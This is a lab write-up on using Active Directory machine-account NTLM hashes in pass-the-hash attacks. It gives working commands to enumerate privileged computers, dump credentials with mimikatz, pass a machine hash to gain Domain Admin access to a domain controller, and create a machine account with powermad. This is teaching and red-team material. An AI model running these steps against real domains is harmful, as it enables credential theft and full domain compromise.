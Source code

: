 # Pass the Hash with Machine$ Accounts

This lab looks at leveraging machine account NTLM password hashes or more specifically - how they can be used in pass the hash attacks to gain additional privileges, depending on which groups the machine is a member of \(ideally administrators/domain administrators\).

This labs is based on an assumption that you have gained local administrator privileges on a workstation \(machine\), let's call it `WS01$`. Since you have done your AD enumeration, you notice that the WS01$ is a member of `Domain Admins` group - congratulations, you are one step away from escalating from local admin to Domain Admin and a full domain compromise.

## Execution

Finding domain computers that are members of interesting groups:

{% code title="attacker@victim" %}
```csharp
Get-ADComputer -Filter * -Properties MemberOf | ? {$_.MemberOf}
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-16-03-19.png)

Of course, the same can be observed by simply checking the Domain Admins net group:

{% code title="attacker@victim" %}
```csharp
net group "domain admins" /domain
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-17-22-59.png)

or administrators group \(not applicable to our lab, but showing as a sidenote\):

{% code title="attacker@victim" %}
```csharp
net localgroup administrators /domain
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-17-24-07.png)

In AD, the highlighted part can be seen here:

![](../../.gitbook/assets/screenshot-from-2018-12-29-16-36-17.png)

Extracting the machine `WS01$` NTLM hash after the admin privileges were gained on the system:

{% code title="attacker@victim" %}
```csharp
sekurlsa::logonPasswords
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-15-29-17.png)

Let's check that our current compromised user `ws01\mantvydas` \(local admin on ws01\) cannot access the domain controller DC01 just yet:

![](../../.gitbook/assets/screenshot-from-2018-12-29-15-47-10.png)

Since WS01$ machine is a member of `Domain Admins` and we have extracted the machine's hash with mimikatz, we can use mimikatz to pass that hash and effectively elevate our access to Domain Admin:

{% code title="attacker@victim" %}
```csharp
sekurlsa::pth /user:ws01$ /domain:offense.local /ntlm:ab53503b0f35c9883ff89b75527d5861
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-29-15-52-35.png)

Below shows how the machine's hash is passed which results in an elevated cmd.exe prompt. Using the elevated prompt enables us to access the domain controller as shown with `dir \\dc01\c$`:

![](../../.gitbook/assets/peek-2018-12-29-15-49.gif)

## Remember

It's worth re-emphasizing that computer/machine accounts are essentially the same as user accounts and can be as dangerous if misconfigured.

Let's create a new machine account with powermad like so:

```csharp
New-MachineAccount -MachineAccount testmachine
```

![](../../.gitbook/assets/image%20%28229%29.png)

Now, let's say someone added the testmachine$ account into Domain Admins:

```csharp
Get-NetGroupMember "domain admins" | select membern*
```

![](../../.gitbook/assets/image%20%28183%29.png)

...if we somehow get hold of the testmachine$ password, we can escalate to a DA. We can check this by opening a new console and logging in as testmachine$ with `/netonly` flag. Note how initially the user spotless cannot list files on the DC01, but once `runas /user:testmachine$ /netonly powershell` is run and the password is provided, DC01 is no longer complaining and allows spotless listing its file system:

![](../../.gitbook/assets/image%20%2899%29.png)

## References

{% embed url="https://blog.secarma.co.uk/labs/using-machine-account-passwords-during-an-engagement" %}

{% embed url="https://www.c0d3xpl0it.com/2018/05/machine-accounts-in-pentest-engagement.html?m=1" %}

